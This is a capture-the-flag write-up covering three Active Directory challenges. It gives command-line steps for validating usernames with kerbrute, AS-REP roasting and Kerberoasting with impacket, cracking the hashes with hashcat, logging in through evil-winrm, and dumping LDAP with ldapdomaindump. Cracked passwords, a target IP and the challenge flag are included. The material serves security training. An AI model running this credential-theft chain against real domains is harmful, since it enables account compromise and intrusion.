 # Blemflarck

This challenge is related to Active Directory in which we are given these files, `admins.txt` , `hosts` and `nmap.txt`

<img src="https://i.imgur.com/blefZnn.png"/>

admins.txt contains a list of usernames

<img src="https://i.imgur.com/17hPdnK.png"/>

nmap.txt contains result of nmap of the domain controller

<img src="https://i.imgur.com/qZymuxN.png"/>

and `hosts` contains the IP and domain name of the target

<img src="https://i.imgur.com/v5QlqoD.png"/>

Now to start solving this, we have a list of usernames of the domain, need to verfiy which users are valid on the domain for that we can use `kerbrute`

<img src="https://i.imgur.com/hSxMEcf.png"/>
We can try performing AS-REP roasting using `GetNPUsers` from `impacket` in which the user `shreya` doesn't have pre-authentication set so without providing a valid password for the user we can request for his TGT

```bash
GetNPUsers.py vindicators.space/ -usersfile ./admins.txt -request
```

<img src="https://i.imgur.com/HAZ2yXJ.png"/>

To crack this we can use `hashcat` with mode `18200

```bash
hashcat -a 0 -m 18200 ./hash.txt /usr/share/wordlists/rockyou.txt --force 
```

<img src="https://i.imgur.com/Q1YpH6e.png"/>

This will crack the hash with password `$anturce77RioGr@ndePR`

<img src="https://i.imgur.com/oeWS1ys.png"/>
Now having the credentials we can login through WinRM  which is running on port 5985 using `evil-winrm`

```bash
evil-winrm -i 34.218.188.252 -u 'shreya' -p ''
```
After logging in we can get the flag for this challenge

<img src="https://i.imgur.com/3vJfhCJ.png"/>

## PhoenixPerson 

<img src="https://i.imgur.com/ElPQQ9s.png"/>

This challenge is continuation from the first one, we have a valid set of credential, we can try using kerberoasting, if there's a SPN tied to an account we can request for TGS and later crack it 

```bash
GetUserSPNs.py vindicators.space/shreya -request
```
<img src="https://i.imgur.com/jTxv1iK.png"/>

Runing hashcat to crack this hash

<img src="https://i.imgur.com/mrkWL6I.png"/>

<img src="https://i.imgur.com/4Ju33Rh.png"/>

Now logging with mirage user

```bash
evil-winrm -i 34.218.188.252 -u 'mirage' -p '!@#New_Life87!@#'
```

<img src="https://i.imgur.com/AYNENVw.png"/>

## DAB-389 b

<img src="https://i.imgur.com/EDJ4n2x.png"/>

This challenge is the last part of AD category where we need to find the third flag through the user `mirage`

From the description the number 389 is referrenced as LDAP which is the port number for that service, we need to enumerate LDAP, there's a tool called `ldapdomaindump`

```bash
ldapdomaindump -u 'mirage' -p '!@#New_Life87!@#' ldap://34.218.188.252
```

<img src="https://i.imgur.com/Z5r7m9p.png"/>
This will generate some html files for users, groups and computers in the domain, going through the `domain_users.html` file we'll get the first part of the flag

<img src="https://i.imgur.com/npDFACX.png"/>

<img src="https://i.imgur.com/icvuQ4s.png"/>

The second part will be found from `domain_computers.html`

<img src="https://i.imgur.com/szr19bM.png"/>

And the third one from `domain_groups.html`

<img src="https://i.imgur.com/kpF554N.png"/>

We can get the flag through `grep` as well by using regular expression

<img src="https://i.imgur.com/w1hyD7J.png"/>

Which makes the final flag

```
flag{3fe05494a09ac38bb5199698b475c48c_LD4P_3num3r4t10n_FTW_:)}

```
There were good challenges and a lot of categories including web3, cloud and source code review which I haven't done before, due to me doing "real world assesments" I wasn't able to touch the rest of the challenges 

<img src="https://i.imgur.com/PTZoCop.png"/>

## References
 - https://hashcat.net/wiki/doku.php?id=example_hashes
 - https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
 - https://www.cyberciti.biz/faq/grep-regular-expressions/
